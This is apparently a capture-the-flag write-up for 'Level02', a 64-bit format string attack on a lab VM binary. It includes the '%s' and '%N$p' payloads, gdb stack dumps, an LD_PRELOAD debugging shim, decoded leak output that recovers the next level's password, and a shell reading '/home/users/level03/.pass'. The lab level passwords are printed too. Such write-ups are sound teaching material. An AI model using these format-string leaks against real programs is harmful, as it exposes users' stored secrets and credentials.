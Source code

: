 # Level02 - 64 bits - Format string attack

## Local script usage

Requirements:

- `gdb-peda`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level02/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level02 | `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv` |
| level03 | `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

We notice the vulnerable printf that does not use format string and print directly the variable `username`

For example:

```shell
~/level02
--[ Username: AAAA
--[ Password: BBBB
  AAAA does not have access!

~/level02
--[ Username: %s # <= Format string vulnerability
--[ Password: BBBB
*****************************************
BBBB does not have access!
```

Unfortunately it difficult to debug the stack because of `fopen`, `fread` and `fclose` that try to open, read and close the level03's flag.

We can use [LD_PRELOAD trick](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/) to mock those functions.

(This step is not really necessary, but it is better to illustrate)

We wrote a file for this job: [debugHelper.c](./debugHelper.c)

We have to send the file with `scp` and then compile it.

```shell
# on local machine
scp -P $OR_PORT -r debugHelper.c level02@$OR_HOST:/tmp/debugHelper.c

# on remote machine
gcc -shared -fPIC -ldl debugHelper.c -o debugHelper.so
export LD_PRELOAD=/tmp/debugHelper.so
```

```shell
gdb-peda$ b*main+654 # before vulnerable printf
gdb-peda$ run < <(echo "BBBBBB\nCCCCCC")
telescope 25

[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe390 --> 0x7fffffffe598 --> 0x7fffffffe7f2 ("/home/users/level02/level02")
0008| 0x7fffffffe398 --> 0x1f7ff9f10
0016| 0x7fffffffe3a0 --> 0x434343434343 ('CCCCCC')
0024| 0x7fffffffe3a8 --> 0x0
0032| 0x7fffffffe3b0 --> 0x0
0040| 0x7fffffffe3b8 --> 0x0
0048| 0x7fffffffe3c0 --> 0x0
0056| 0x7fffffffe3c8 --> 0x0
0064| 0x7fffffffe3d0 --> 0x0
0072| 0x7fffffffe3d8 --> 0x0
0080| 0x7fffffffe3e0 --> 0x0
0088| 0x7fffffffe3e8 --> 0x0
0096| 0x7fffffffe3f0 --> 0x0
0104| 0x7fffffffe3f8 --> 0x0
0112| 0x7fffffffe400 --> 0x100000000
0120| 0x7fffffffe408 --> 0x0
0128| 0x7fffffffe410 ('A' <repeats 40 times>) # <=== fake Flag
0136| 0x7fffffffe418 ('A' <repeats 32 times>)
0144| 0x7fffffffe420 ('A' <repeats 24 times>)
0152| 0x7fffffffe428 ('A' <repeats 16 times>)
0160| 0x7fffffffe430 ("AAAAAAAA")
0168| 0x7fffffffe438 --> 0x0
0176| 0x7fffffffe440 --> 0x424242424242 ('BBBBBB')
0184| 0x7fffffffe448 --> 0x0
0192| 0x7fffffffe450 --> 0x0
[------------------------------------------------------------------------------]
```

We can see the fake flag at the address `0x7fffffffe410`.

As we don't know exactly the position of the the flag, we will use a format string attack to find the flag. We will test several position using a loop.

Lets run [our script](./script.sh)

```shell
./script.sh
  %00$p: %0$p                 | xxd -r | rev  =>
  %01$p: 0x7fffffffe970       | xxd -r | rev  =>
  %02$p: (nil)                | xxd -r | rev  =>
  %03$p: 0x70                 | xxd -r | rev  =>  p
  %04$p: 0x2a2a2a2a2a2a2a2a   | xxd -r | rev  =>  ********
  %05$p: 0x2a2a2a2a2a2a2a2a   | xxd -r | rev  =>  ********
  %06$p: 0x7fffffffeb68       | xxd -r | rev  =>
  %07$p: 0x1f7ff9a08          | xxd -r | rev  =>
  %08$p: 0x64726f7773736170   | xxd -r | rev  =>  password
  %19$p: (nil)                | xxd -r | rev  =>
  (...)
  %20$p: 0x100000000          | xxd -r | rev  =>
  %21$p: (nil)                | xxd -r | rev  =>
  %22$p: 0x756e505234376848   | xxd -r | rev  =>  Hh74RPnu
  %23$p: 0x45414a3561733951   | xxd -r | rev  =>  Q9sa5JAE
  %24$p: 0x377a7143574e6758   | xxd -r | rev  =>  XgNWCqz7
  %25$p: 0x354a35686e475873   | xxd -r | rev  =>  sXGnh5J5
  %26$p: 0x48336750664b394d   | xxd -r | rev  =>  M9KfPg3H

  It should be:  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  (...)
```

We have something like 40 chars in a row. It should be the flag.

Lets try

```shell
~/level02
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username:
  --[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  *****************************************
  Greetings, !
$ whoami
  level03
$ cat /home/users/level03/.pass
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [LD_PRELOAD Trick](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/)
- [LD_PRELOAD Trick (with call to real function)](https://catonmat.net/simple-ld-preload-tutorial-part-two)

- [Man exit](https://linux.die.net/man/3/exit)
- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man fclose](https://linux.die.net/man/3/fclose)
- [Man fopen](https://linux.die.net/man/3/fopen)
- [Man fread](https://linux.die.net/man/3/fread)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strncmp](https://linux.die.net/man/3/strncmp)
- [Man strcspn](https://linux.die.net/man/3/strcspn)
- [Man system](https://linux.die.net/man/3/system)
